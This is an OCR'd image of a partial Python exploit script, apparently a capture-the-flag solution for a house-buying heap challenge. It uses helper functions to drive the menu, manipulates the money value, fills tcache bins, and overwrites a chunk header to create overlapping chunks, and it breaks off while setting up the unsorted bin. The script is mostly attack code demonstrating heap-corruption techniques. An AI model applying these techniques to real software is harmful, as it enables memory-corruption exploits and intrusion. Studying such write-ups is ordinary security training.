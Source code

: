 ```
    ru("Index:")
    sl(str(index))

def check_money():
    ru("Your choice: ")
    sl("1")
    ru("Your money:")
    money_now = int(rl().strip())
    #log.critical("money_now --> {money}".format(money = hex(money_now)))
    ru("Index:")
    sl("7")
    ru("Size:")
    sl(str(0x10))
    #log.critical("max calloc --> {money}".format(money = hex(money_now / 0xda)))
    return money_now

def buy_super(buf):
    ru("Your choice: ")
    sl("5")
    ru("House:")
    sn(buf)

def show_super():
    ru("Your choice: ")
    sl("6")
    ru("Here is supper house:\n")
    return p.read(0x217)

def fuck_money(size):
    buy_house(7, size, "\x00")
    sell(7)
    log.critical(hex(check_money()))


if __name__ == '__main__':
    fuck_money(0x13f69b02593f69b1)
    fuck_money(0x109bb0727572e2bd)
    fuck_money(0x13f2b1389a662c33)
    fuck_money(0x4fcace18cee3091)

    #make tcache size 0x217 full
    for i in range(0, 7):
        buy_house(7, 0x217, "\x00")
        sell(7)

    #chunk after tcache and before tmp tcache bins
    buy_house(2, 0x80, "x" * 0x10)
    sell(2)
    buy_house(0, 0x400, "\xaa" * 0x400)
    buy_house(1, 0xa0, "\xbb" * 0xa0)
    buy_house(2, 0x90, "\xcc" * 0x90)
    buy_house(3, 0x90, "\xdd" * 0x90)

    #overlapping first
    upgrade(0, "\xaa" * 0x400 + p64(0) + p64(0x8d1))

    for i in range(0, 7):
        buy_house(7, 0x90, "\x11" * 0x90)
        sell(7)

    #unsorted bin
    buy_house(4, 0x90, "\x44" * 0x90)
    buy_house(5, 0x90, "\x55" * 0x90)
```